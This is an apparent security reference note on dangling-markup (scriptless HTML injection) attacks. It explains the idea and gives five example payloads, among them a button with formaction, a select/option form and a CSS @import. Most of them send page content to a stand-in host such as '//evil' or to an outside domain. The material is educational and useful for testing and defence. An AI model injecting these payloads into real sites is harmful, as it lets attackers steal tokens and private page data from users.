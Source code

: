 #  HTML Scriptless Attacks / Dangling Markup Attacks (Part - 1)
Index | Section
--- | ---
**1** | Introduction 
**2** | Interesting Attack Vectors (Part - 1)
**3** | References & Good Reads

___
#### Introduction
```
1. Dangling markup attack is often known as HTML Scriptless Injection attack. This is often useful when you have HTML Injection vulnerability but not a way to escalate it to XSS and you want to extract information.

2. It can also be used in the situations where some sensitive data is stored in HTML as clear text. This attack can be used to exfiltrate that information.

```


#### Interesting Attack Vectors (Part - 1)
```
(Credits: http://www.thespanner.co.uk/2011/12/21/html-scriptless-attacks/)

1. Button as a Scriptless Vector

- In HTML5, the default type for a button is a submit and the "formaction" attribute allows to change the parent form action.
- Also, it is possible to stroe any html after button until the next or non existent closing button tag.
- Example: <button name=xss type=submit formaction=//evil>I get consumed!

2. Option as a Scriptless Vector

- Option also consumes HTML and can be used as an attack vector
- Example: <form action=//evil><select name=xss><option><b>steal me!</b>

3. @import as a scriptless Vector

-  @import continues parsing a url until it encounters a ending “;”. It means it can be used to consume HTML. 
- Example: 
			<style>@import//hackvertor.co.uk?
			<b>steal me!</b>;

4. Noscript scriptless vector

- Example: <noscript><form action=http://google.com><input type=submit style="position:absolute;left:0;top:0;width:100%;height:100%;" type=submit value=pwnd><textarea name=contents></noscript>
				
5. Using window.name via base target
				
- You can also use the target attribute to assign the contents of the HTML after to the window name and then later retrieve it x-domain after a user clicks an external link.

- Example: <base target='
steal me'<b>test</b>

```


#### References & Good Reads

```
a. http://www.thespanner.co.uk/2011/12/21/html-scriptless-attacks/

```